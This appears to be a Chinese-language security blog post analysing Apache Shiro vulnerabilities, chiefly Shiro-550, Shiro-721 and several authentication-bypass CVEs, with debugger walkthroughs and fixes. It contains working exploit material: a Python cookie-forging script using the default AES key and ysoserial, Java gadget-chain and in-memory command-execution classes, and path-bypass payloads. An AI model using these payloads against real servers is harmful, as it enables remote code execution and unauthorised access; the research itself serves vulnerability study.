# 前言

从Shiro诞生之初，到至今一共存在14个漏洞。以下是shiro官网中的漏洞报告：

| 漏洞编号                      | Shiro版本                           | 配置                                                         | 漏洞形式                                                     |
| ----------------------------- | ----------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `CVE-2010-3863`               | `shiro < 1.1.0` 和`JSecurity 0.9.x` | `/** = anon`                                                 | `/./remoting.jsp`                                            |
| `CVE-2014-0074`/`SHIRO-460`   | `shiro 1.x < 1.2.3`                 | -                                                            | `ldap`、空密码、空用户名、匿名                               |
| `CVE-2016-4437`/`SHIRO-550`   | `shiro 1.x < 1.2.5`                 | -                                                            | `RememberMe`、硬编码                                         |
| `CVE-2016-6802`               | `shiro < 1.3.2`                     | `Context Path`绕过                                           | `/x/../context/xxx.jsp`                                      |
| `CVE-2019-12422`/`SHIRO-721`  | `shiro < 1.4.2`                     | -                                                            | `RememberMe`、`Padding Oracle Attack`、`CBC`                 |
| `CVE-2020-1957`/`SHIRO-682`   | `shiro < 1.5.2`                     | `/** = anon`                                                 | `/toJsonPOJO/`,`Spring Boot < 2.3.0.RELEASE` -> `/xx/..;/toJsonPOJO` |
| `CVE-2020-11989`/ `SHIRO-782` | `shiro < 1.5.3`                     | (等于1.5.2）`/toJsonList/* = authc`；(小于1.5.3）`/alter/* = authc && /** = anon` | (等于1.5.2）`/`的两次编码 -> `%25%32%66` `/toJsonList/a%25%32%66a ->/toJsonList/a%2fa`；（小于1.5.3）`/;/shirodemo/alter/test -> /shirodemo/alter/test` (`Shiro < 1.5.2`版本的话，根路径是什么没有关系) |
| `CVE-2020-13933`              | `shiro < 1.6.0`                     | `/hello/* = authc`                                           | `/hello/%3ba -> /hello/;a`                                   |
| `CVE-2020-17510`              | `shiro < 1.7.0`                     | `/hello/* = authc`                                           | `/hello/%2e -> /hello/.` (`/%2e`、`/%2e/`、`/%2e%2e`、`/%2e%2e/`都可以） |
| `CVE-2020-17523`              | `shiro < 1.7.1`                     | `/hello/* = authc`                                           | `/hello/%20 -> /hello/%20`                                   |
| `CVE-2021-41303`              | `shiro < 1.8.0`                     | `/admin/* = authc` && `/admin/page = anon`                   | `/admin/page/ -> /admin/page`                                |
| `CVE-2022-32532`              | `shiro < 1.9.1`                     | `RegExPatternMatcher` && `/alter/.*`                         |                                                              |

| CVE-2023-22602 | SpringBoot > 2.6 且 Shiro < 1.11.0 | -    | /admin/..                    |
| -------------- | ---------------------------------- | ---- | ---------------------------- |
| CVE-2022-40664 | Shiro < 1.10.0                     | -    | 非认证界面可以转发到认证界面 |


不会复现所有的shiro漏洞，主要是550和721以及一两个权限绕过

# CVE-2016-4437/Shiro-550

在此之前shiro还存在两个漏洞，因为确实是比较远古的漏洞了，就不看了

## 环境搭建

这一个漏洞是shiro最经典的一个漏洞，我们用git来下载指定版本

```
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.2.4 #进入shiro 具体使用git checkout <tag_name>
```

如何打开sample/web目录，这里才是我们需要的

修改一下pom里面的jstl包（解析jsp的），版本我改为的1.2


## 漏洞描述

在Shiro 1.2.5之前，当没有为“remember me”功能配置密钥时，允许远程攻击者执行任意代码或通过请求参数绕过预期的访问限制。

## 适用范围

- Shiro < 1.2.5

shiro550中，cookie中存在一个remember字段，用于记住密码，里面存储了相应的信息，这个漏洞其实之前也跟过一遍，这里再重新跟一次加深影响，顺便结合内存马，因为shiro中cookie头的长度有限，这些在后面会提到

## 漏洞分析

shiro特征：

```
未登陆的情况下，请求包的cookie中没有rememberMe字段，返回包set-Cookie里也没有deleteMe字段

登陆失败的话，不管勾选RememberMe字段没有，返回包都会有rememberMe=deleteMe字段

不勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段。但是之后的所有请求中Cookie都不会有rememberMe字段

勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段，还会有rememberMe字段，之后的所有请求中
```


我们来找一下shiro包中与Cookie相关的类，CookieRememberMeManager类



这个类继承了AbstractRememberMeManager这个类


而AbstractRememberMeManager这个类实现了RememberMeManager这个接口


这个接口定义了几个方法，看名字就知道是大概的意思，onSuccessfulLogin是登陆成功相关的处理方法，getRememberdPrincipals则是获取RememberMe身份认证相关的方法，还有退出登陆，登陆失败，和忘记认证（猜测是忘记密码）

我们知道了这次漏洞是因为RememberMe这个cookie的问题，那么就知道需要登陆才会获取到这个cookie，我们在onSuccessfulLogin打个断点来看看具体的流程



isRememberMe这个方法其实就是判断用户是否在登陆的时候选择了remember me这个选项，所以调用rememberIdentity方法


token中存储的是用户名，密码，rememberMe以及host


PrincipalCollection是一个身份集合，可以看到，getIdentityToRemember主要是返回一个身份对象，继续跟进


调用了convertPrintcipalsToBytes方法，将principal转化成byte，方便存储，跟进去看看


 

调用了serialize进行序列化，在调用encrypt加密返回，至于加密方法的话，同cipherService可以发现是用的AES，且密钥是硬编码在代码中的


这里1.4.2之前的shiro用的是AES的CBC方式进行加密，而之后的话用的是GCM方式加密，具体的加密流程就不去看了，那都是用Java写的关于P盒置换等东西了

接下来就是调用rememberSerializedIdentity方法了

```
protected void rememberSerializedIdentity(Subject subject, byte[] serialized) {

    if (!WebUtils.isHttp(subject)) {
        if (log.isDebugEnabled()) {
            String msg = "Subject argument is not an HTTP-aware instance.  This is required to obtain a servlet " +
                    "request and response in order to set the rememberMe cookie. Returning immediately and " +
                    "ignoring rememberMe operation.";
            log.debug(msg);
        }
        return;
    }


    HttpServletRequest request = WebUtils.getHttpRequest(subject);
    HttpServletResponse response = WebUtils.getHttpResponse(subject);

    //base 64 encode it and store as a cookie:
    String base64 = Base64.encodeToString(serialized);

    Cookie template = getCookie(); //the class attribute is really a template for the outgoing cookies
    Cookie cookie = new SimpleCookie(template);
    cookie.setValue(base64);
    cookie.saveTo(request, response);
}
```

逻辑很简单，先判断是不是http请求方式，然后再获取request盒response对象，对刚才得到的AES的密文再进行base64编码，然后存在cookie中

现在我们了解了存储的过程，是序列化再AES加密后，通过Base64编码存储到cookie中

既然存储了，那cookie作为一个身份验证的手段，可以会被解析，可想而之，解析的时候会先进行base64解码，再AES解密，再反序列化

我们来看看是不是这样的

在刚才我们调用了rememberSerializedIdentity方法进行了cookie的存储，与此对应，在解析的时候，会调用getRememberedSerializedIdentity来从cookie中获取身份认证相关信息，那肯定首先就会调用这里



我们来看看，哪里调用了这个方法我们打断点进来

在此之前，我们要把cookie中JSSESIONID这个字段删除，因为在shiro中，如果存在JSESSIONID这个参数的话，就不会去解析remember这个cookie了


果然进来了，这个方法看完后发现就是获取cookie，然后base64解码返回


随后调用了convertBytesToPrincipals方法


直接解码，反序列化

因为AES是对称密钥加密，那么，我们知道了密钥等信息，可以伪造一个Cookie，在解析的时侯进行反序列化我们恶意的Payload，另外在shiro中内置了CB链



这些scope为test的，在最后打包的时候不会被打包

所以，因为shiro不同版本都是通过硬编码的方式写入AES密钥的，所以我们爆破出密钥的情况下，可以结合Gadgets进行漏洞利用

对于利用，也有很多shiro的利用工具，也可以自己构造payload

```
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections2', command],stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    # 这里密钥key是已知的，在shiro官网上有,可根据不同系统替换密钥
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme("dir")
    print("rememberMe={0}".format(payload.decode()))
```

## 漏洞修复

在1.2.5及后续的版本，都是随机产生的密钥，但是指标不治本，如果能够爆破出来shiro的密钥的话，仍然是可以加以利用的

## 利用过程存在的问题

1. **Tomcat下Shiro无法利用`Commons-Collections 3.1-3.2.1`版本包含Transform数组的利用链。**

   因为Shiro重写了ObjectInputStream类的resolveClass函数。ObjectInputStream的`resolveClass`方法用的是Class.forName类获取当前描述器所指代的类的Class对象。

   Shiro的resovleClass会调用tomcat的`org.apache.catalina.loader.WebappClassLoaderBase#loadClass`方法加载类，该方法会先寻找缓存（由于该类对数组类序列化path路径的处理问题，会找不到），找不到再调用`Class.forName`并使用URLClassLoader作为加载器去加载`org.apache.commons.collections.Transformer`类，但用这个类加载器必然也会找不到该类。

   可参考：https://blog.zsxsoft.com/post/35

   解决方法: Commons-Collections 3.1通过TemplatesImpl加载字节码，可见[cc11链分析](https://myzxcg.com/2021/10/Ysoserial-利用链分析/#Commons-Collections11)。

2. **SUID 不匹配**

   如果序列化字节流中的serialVersionUID与目标服务器对应类中的serialVersionUID不同就会出现异常，导致反序列化失败。因为不同版本jar包可能存在不同的计算方式导致算出的SUID不同，只需要和目标一样的jar包版本去生成payload即可解决。这个主要是对CB链利用的时候1.8.3和1.9.2版本的SUID不同导致的问题

3. **中间件请求头长度限制**

   1. 修改Tomcat请求头最大值（适用于Tomcat 7、8、9）

      通过反射修改`org.apache.coyote.http11.AbstractHttp11Protocol`的maxHeaderSize的大小（默认长度8192），这个值会影响新的Request的inputBuffer时的对于header的限制。但由于request的inputbuffer会复用，所以在修改完maxHeaderSize之后，需要多个连接同时访问（burp开多线程跑），让tomcat新建request的inputbuffer，这时候的buffer的大小就会使用修改后的值。

## 命令执行回显

对于一般的tomcat和spring的回显都能直接打，但是呢，shiro比较特殊，他的payload是通过cookie这个请求头打过去的，请求头的长度默认限制为8192，对于tomcat和内存马这种比较长的payload不支持，所以我们需要通过反射修改maxHeaderSize

```
class Tomcat789 {
        public Object getField(Object object, String fieldName) {
            Field declaredField;
            Class clazz = object.getClass();
            while (clazz != Object.class) {
                try {

                    declaredField = clazz.getDeclaredField(fieldName);
                    declaredField.setAccessible(true);
                    return declaredField.get(object);
                } catch (NoSuchFieldException e) {
                } catch (IllegalAccessException e) {
                }
                clazz = clazz.getSuperclass();
            }
            return null;
        }

        public Object GetAcceptorThread() {
            //获取当前所有线程
            Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
            //从线程组中找到Acceptor所在的线程 在tomcat6中的格式为:Http-端口-Acceptor
            for (Thread thread : threads) {
                if (thread == null || thread.getName().contains("exec")) {
                    continue;
                }
                if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                    Object target = this.getField(thread, "target");
                    if (!(target instanceof Runnable)) {
                        try {
                            Object target2 = this.getField(thread, "this$0");
                            target = thread;
                        } catch (Exception e) {
                            continue;
                        }
                    }
                    Object jioEndPoint = getField(target, "this$0");
                    if (jioEndPoint == null) {
                        try {
                            jioEndPoint = getField(target, "endpoint");
                        } catch (Exception e) {
                            continue;
                        }
                    }
                    return jioEndPoint;
                }
            }
            return null;
        }

        public Tomcat789() {
            Object jioEndPoint = this.GetAcceptorThread();
            if (jioEndPoint == null) {
                return;
            }
            Object object = getField(getField(jioEndPoint, "handler"), "global");
            java.util.ArrayList processors = (java.util.ArrayList) getField(object, "processors");
            Iterator iterator = processors.iterator();
            while (iterator.hasNext()) {
                Object next = iterator.next();
                Object req = getField(next, "req");
                Object serverPort = getField(req, "serverPort");
                if (serverPort.equals(-1)) {
                    continue;
                }
                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) ((org.apache.coyote.Request) req).getNote(1);
                ServletContext servletContext = request.getSession().getServletContext();
                Connector[] connector=(Connector[])getField(getField(getField(servletContext,"context"),"service"),"connectors");
                org.apache.coyote.ProtocolHandler protocolHandler = connector[0].getProtocolHandler();
                ((org.apache.coyote.http11.AbstractHttp11Protocol) protocolHandler).setMaxHttpHeaderSize(10000);
                return;
            }

        }
    }

```

然后再利用tomcat回显去攻击

除此之外，我们还可以从post中获取数据

适用于Tomcat 7、8、9。已解决请求头长度限制问题（从Post请求中获取字节码加载）

Tomcat 6无法利用（调试CommonsBeanutils和cc11利用链发现，反序列化时无法获取`[[B`的class类型。tomcat6的WebappClassLoader类加载器和子类加载器都找不到`[[B`的类）

**TD类代码实现**

该类是在TemplatesImpl加载的字节码的类，该类中从Acceptor线程中获取request和response对象，获取请求Post参数中的字节码base64解码后，加载调用对象的equals方法（传入获取request和response对象）。

```
package deserialize;

import java.lang.reflect.Field;
import java.util.Iterator;

public class TD {
    static {
        Object jioEndPoint = GetAcceptorThread();
        if (jioEndPoint != null) {
            java.util.ArrayList processors = (java.util.ArrayList) getField(getField(getField(jioEndPoint, "handler"), "global"), "processors");
            Iterator iterator = processors.iterator();
            while (iterator.hasNext()) {
                Object next = iterator.next();
                Object req = getField(next, "req");
                Object serverPort = getField(req, "serverPort");
                if (serverPort.equals(-1)) {
                    continue;
                }
                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) ((org.apache.coyote.Request) req).getNote(1);
                org.apache.catalina.connector.Response response = request.getResponse();
                String code = request.getParameter("wangdefu");
                if (code != null) {
                    try {
                        byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(code);
                        java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{byte[].class, int.class, int.class});
                        defineClassMethod.setAccessible(true);
                        Class cc = (Class) defineClassMethod.invoke(TD.class.getClassLoader(), classBytes, 0, classBytes.length);
                        cc.newInstance().equals(new Object[]{request, response});
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
        }
    }

    public static Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (Exception e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public static Object GetAcceptorThread() {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null || thread.getName().contains("exec")) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = getField(thread, "target");
                if (!(target instanceof Runnable)) {
                    try {
                        Object target2 = getField(thread, "this$0");
                        target = thread;
                    } catch (Exception e) {
                        continue;
                    }
                }
                Object jioEndPoint = getField(target, "this$0");
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                    } catch (Exception e) {
                        continue;
                    }
                }
                return jioEndPoint;
            }
        }
        return null;
    }
}

```

cmd类代码实现

该类的字节码会被base64编码后，放在wangdefu请求参数中。在TD类中获取该参数并加载。

```
package deserialize;

import java.io.InputStream;
import java.util.Scanner;

public class cmd {
    public boolean equals(Object req) {
        Object[] context=(Object[]) req;
        org.apache.catalina.connector.Request request=(org.apache.catalina.connector.Request)context[0];
        org.apache.catalina.connector.Response response=(org.apache.catalina.connector.Response)context[1];
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setContentType("text/html;charset=utf-8");
                InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\\\a");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().println("----------------------------------");
                response.getWriter().println(output);
                response.getWriter().println("----------------------------------");
                response.getWriter().flush();
                response.getWriter().close();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        return true;
    }
}

```

**run类代码实现**

通过CommonsBeanutils利用链加载TD类的字节码，生成序列化数据。获取cmd类的字节码，并base64编码输出。

```
package deserialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class run {
    public static void main(String[] args) {
        try {
            //获取字节码
            ClassPool pool = ClassPool.getDefault();
            pool.insertClassPath(new ClassClassPath(deserialize.run.class.getClass()));
            CtClass ctClass = pool.get("deserialize.TD");
            ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
            byte[] classBytes = ctClass.toBytecode();

            CtClass ctClass2 = pool.get("deserialize.cmd");
            byte[] classBytes2 = ctClass2.toBytecode();
            System.out.println("post请求参数wangdefu\\n" + Base64.getEncoder().encodeToString(classBytes2));

            TemplatesImpl templates = TemplatesImpl.class.newInstance();
            setField(templates, "_name", "name");
            setField(templates, "_bytecodes", new byte[][]{classBytes});
            setField(templates, "_tfactory", new TransformerFactoryImpl());
            setField(templates, "_class", null);

            BeanComparator beanComparator = new BeanComparator("outputProperties", String.CASE_INSENSITIVE_ORDER);

            PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);

            setField(priorityQueue, "queue", new Object[]{templates, templates});
            setField(priorityQueue, "size", 2);

            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CommonsBeanutils.ser"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CommonsBeanutils.ser"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
        }

    }

    public static void setField(Object object, String field, Object args) throws Exception {
        Field f0 = object.getClass().getDeclaredField(field);
        f0.setAccessible(true);
        f0.set(object, args);

    }
}

```



这一段就是直接Copy的了

另外的几种方式

- 通过RMI绑定实例获取回显（有点鸡肋，需要在目标开RMI服务，在远程连接，如果内网机器做了反代就没法用） 通过defineClass定义的恶意命令执行字节码来绑定RMI实例，接着通过RMI调用绑定的实例拿到回显结果。[Weblogic使用ClassLoader和RMI来回显命令执行结果](https://xz.aliyun.com/t/7228#toc-5)
- URLClassLoader抛出异常 通过将回显结果封装到异常信息抛出拿到回显。参考[Java 反序列化回显的多种姿势](https://xz.aliyun.com/t/7740)
- dnslog或如果知道web路径可以写文件

这些方式都是可以的，还是解决那个请求头长度限制的问题

# CVE-2016-6802/权限绕过

 Shiro框架通过拦截器功能来实现对用户访问的控制和拦截,Shiro中常见的拦截器有anon,authc等拦截器

```cobol
1.anon为匿名拦截器,不需要登录就能访问,一般用于静态资源,或者移动端接口
2.authc为登录拦截器,需要认证才能访问资源
```

这里不需要我们手动去配置了，之前的项目中，/account/index.jsp是需要认证的

## 漏洞描述

影响范围

- Shiro < 1.3.2

因为是一样的了，我就直接用1.2.4的版本继续来看了

shiro在路径控制的时候，未能对传入的url编码进行decode解码，导致攻击者可以绕过过滤器，访问被过滤的路径

## 漏洞复现

访问`http://192.168.50.128:8081/samples_web_war_exploded/login.jsp` 的时候，页面返回403或者302t。因此可以确定account路径是属于被过滤路径。此时使用burp截断，然后在访问路径的前添加 /任意目录名/../，即可绕过认证权限进行访问


在访问路径前加上`/任意路径/../`



绕过了认证

## 漏洞分析

- GitHub commit 信息：https://github.com/apache/shiro/commit/b15ab927709ca18ea4a02538be01919a19ab65af
- CVE 描述：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6802根据 commit 信息，可以定位到缺陷是在 WebUtils.java 中的 getContextPath 方法。


我们在WebUtils的getContextPath打个断点来分析，把正常请求和payload分开来看看区别

首先是正常的请求


可以看到，直接返回了我们的contextpath，回到getPathWithinApplication方法（这是shiro用来获取请求路径的方法）


uri以contentPath开头的，进入if，最后返回的就是我们请求的路径/account/index.jsp，那后面就会被拦截器拦截，随后需要认证跳转（这里怎么操作是看拦截器怎么写的，不一定非的是跳转）

随后我们用burp发包（一定要是burp，不然浏览器会自动把/../转化为/），带着payload，再来看断点情况


还是直接返回contextpath，这次是/aa/../samples_web_war_exploded


可以看到，此时获取到的contextPath为/aa/../samples_web_war_exploded，而Uri是/samples_web_war_exploded/account/index.jsp，并不是符合if的条件，所以直接返回Uri

而为什么getContextPath返回的contextPath不是我们设置的`/samples_web_war_exploded`呢？这是因为在Tomcat的Request的getContextPath方法对`/aa/../samples_web_war_exploded/abc`进行截取最后一个`/`之前的部分，得到的`/aa/../samples_web_war_exploded`，然后标准化后得到`/samples_web_war_exploded`,比对我们设置的`/samples_web_war_exploded`，若相等，就返回`/aa/../samples_web_war_exploded`

正常情况下，我们配置需要登录才能访问的路径都不会带上contextPath，都是这样配置的

```
[urls]
/login.jsp = authc
/logout = logout
/account/** = authc
/remoting.jsp = authc, perms["audit:list"]
/** = anon
```

所以我们用/samples_web_war_exploded/account/index.jsp这种方式去访问就绕过了验证，他匹配到的控制器应该是/**，是不需要认证的




到/account/**这个filter的时候，没有匹配到，就绕过了认证

有时候看你会想，这样访问的路径就多了一个/samples_web_war_exploded了，后续会继续分离`/samples_web_war_exploded/abc`，进行`/abc`路由的访问

## 漏洞修复

在1.3.2及之后的版本中，在WebUtils的getContextPath中，在返回前进行了标准化处理


```
contextPath = normalize(decodeRequestString(request, contextPath));
```

就相当于，像进行了/../这种处理的转换

# CVE-2019-12422/Shiro-721

## 漏洞描述

在1.4.2之前的Apache Shiro，当使用默认的 "rememberMe "配置时，cookies可能容易受到填充攻击。

适用范围

- Shiro < 1.4.2

跟Shiro无关，而是对Shiro采用的加密方式进行的攻击，所以略过，只要了解了Padding Oracle Attack 原理就能理解这个攻击的原理，这里推荐[Padding Oracle Attack(填充提示攻击)详解及验证](https://www.jianshu.com/p/833582b2f560)

`RememberMe`默认通过 `AES-128-CBC` 模式加密，易受`Padding Oracle Attack`攻击

这里其实就是CBC翻转字节攻击，所以在1.4.2后，shiro的AES就采用了GCM的方式加密

攻击者通过已知 `RememberMe` 密文使用 `Padding Oracle Attack` 爆破和篡改密文，构造可解密的恶意的反序列化数据，触发反序列化漏洞

详情可以参考

[Shiro 历史漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11633#toc-17)

在721中，我们首先需要先获取一个有效的rememberme

## 漏洞修复

也就是刚才提到的变换AES加密方式为GCM

# CVE-2020-1957/Shiro-682权限绕过

## 漏洞描述

1.5.2之前的Apache Shiro，当使用Apache Shiro与Spring动态控制器时，特制的请求可能导致认证绕过。

适用范围

- Shiro < 1.5.2

测试版本：1.4.2

这里需要配合Spring一起使用

这是由于Spring-Web和Shiro的访问路径的不同处理造成的，在Spring-Web中，`/resource/menus`和`/resource/menus/`都可以访问资源，而在Shiro中，只有`/resource/menus`才会匹配上`pathPattern`从而进行身份验证和授权之类的操作

所以在整合spring的情况下，在末尾加上/可以绕过shiro的身份认证

## 环境搭建

使用已有的demo

[javaboy-code-samples/shiro/shiro-basic at master · lenve/javaboy-code-samples · GitHub](https://github.com/lenve/javaboy-code-samples/tree/master/shiro/shiro-basic)

修改一下shiro的版本

```
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.4.2</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.4.2</version>
</dependency>
```

在shiroconfig中添加一个拦截器，拦截hello路由

```
map.put("/hello/*", "authc");		// 不能用**
```

再把全局的authc注释掉



创建一个hello路由的controller

```
@GetMapping("/hello/{currentPage}")
    public String hello(@PathVariable String currentPage) {
        return "hello " + currentPage;
    }
```

因为要抓包，配置一个新的端口


## 漏洞复现



## 漏洞分析

我们继续来看到之前对shiro中路径处理的地方PathMatchingFilterChainResolver的getChain方法



pathMatches函数其最终会调用shiro.util.AntPathMatcher类中doMatch的对于ant格式的pathPattern和requestURI进行匹配。

```
//pathMatches:135, PathMatchingFilterChainResolver (org.apache.shiro.web.filter.mgt)
protected boolean pathMatches(String pattern, String path) {
        PatternMatcher pathMatcher = this.getPathMatcher();
        return pathMatcher.matches(pattern, path);
}
```

当Shiro 的Ant格式的pathPattern 中的`*`通配符是不支持匹配路径的，所以`/hello/*`不能成功匹配/hello/1/，也就不会触发authc拦截器进行权限拦截。从而成功绕过了Shiro拦截器，而后再进入到spring拦截器中，/hello/1/与/hello/1能获取到相同的资源



在这里面的处理逻辑也可以发现，如果是两个*的话，最后还是会返回true，被拦截

回到getchain我们来看看



可以看到是没有成功匹配的，然后再进入循环，最后循环结束的时候返回null，相当于这边就不会拦截

## 漏洞修复

1.5.0版本修复源自tomsun28提交的PR代码，代码修复位置为pathsMatch:125, PathMatchingFilter (org.apache.shiro.web.filter)，该修复方式是通过判断requestURI是否以/为结尾，如果以/结尾的话，则去掉尾部的/符号在与URL表达式进行比较。

也就是当requestURI为/hello/1/等以/为结尾的URI的时候，都会被清除最后的/号，再进行URL路径匹配



## 漏洞绕过

本 `CVE` 还存在另一个绕过。利用的是 `shiro` 和 `spring` 对 `url` 中的 `;` 处理的差异进行绕过并成功访问，也是利用shiro和spring的差异进行绕过

参考https://xz.aliyun.com/t/11633#toc-26




# 写在最后

对于shiro的漏洞，大多数是权限绕过，而一般最关心的还是shiro550和shiro721的CBC翻转字节攻击


参考链接

https://xz.aliyun.com/t/7388

https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3

[Shiro 回显与内存马实现 | MYZXCG](https://myzxcg.com/2021/11/Shiro-回显与内存马实现/)

https://www.freebuf.com/vuls/362341.html

https://blog.csdn.net/hackzkaq/article/details/114278891

https://xz.aliyun.com/t/11633#toc-17

https://www.freebuf.com/vuls/231909.html